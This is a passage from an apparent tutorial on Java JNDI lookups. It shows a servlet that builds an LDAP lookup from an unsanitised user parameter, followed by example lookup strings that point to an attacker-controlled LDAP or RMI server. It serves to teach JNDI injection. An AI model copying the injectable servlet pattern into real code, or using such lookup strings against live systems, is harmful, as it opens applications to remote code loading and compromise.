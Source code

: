 # What About a Remote Connection?

The code is similar. We need to define the IP address of the server providing the naming service in the `Context.PROVIDER_URL` property. In this scenario, we do not create a binding since that is already defined in the remote naming service.

One thing we can do is add the previous code to a java application that receives a `username`, queries an LDAP server via a JNDI lookup and returns additional information about the user.

```
import java.io.*;
import javax.servlet.ServletException;
import javax.servlet.http.*;
import javax.servlet.annotation.*;

import javax.naming.Context;
import javax.naming.InitialContext;

@WebServlet(name = "login", urlPatterns = {"/login"})
public class login extends HttpServlet {
  @Override
  protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String name = request.getParameter("name");
    
    PrintWriter out = response.getWriter();
    out.println("Getting information about: " + name + "!!");

    Hashtable<String, String> env = new Hashtable<String, String>();
    env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.ldap.LdapCtxFactory");
    env.put(Context.PROVIDER_URL, "ldap://trusted-remote-server:389");
    InitialContext ctx = new InitialContext(env);

    String namePath = "cn=" + name + ",dc=va,dc=org";
    String object = Objects.toString(ctx.lookup(namePath));
    out.println("Results: " + object);
  }
}
```

In the example above, we took our local LDAP JNDI lookup example and added it to a more realistic use-case (basic). In addition, we showed an example where a user provides part of the string used by the JNDI lookup operation (`ctx.lookup()`). If a user had control over the whole string, the lookup operation could override the `Context.PROVIDER_URL` and point the lookup operation to his or her own controlled LDAP server.

```
ctx.lookup(ldap://untrusted-remote-server:389/cn=jose,dc=FL,dc=myorg)
```

This could also override the `Context.INITIAL_CONTEXT_FACTORY` and switch protocols:

```
ctx.lookup(rmi://untrusted-remote-server:1099/myobject)
```
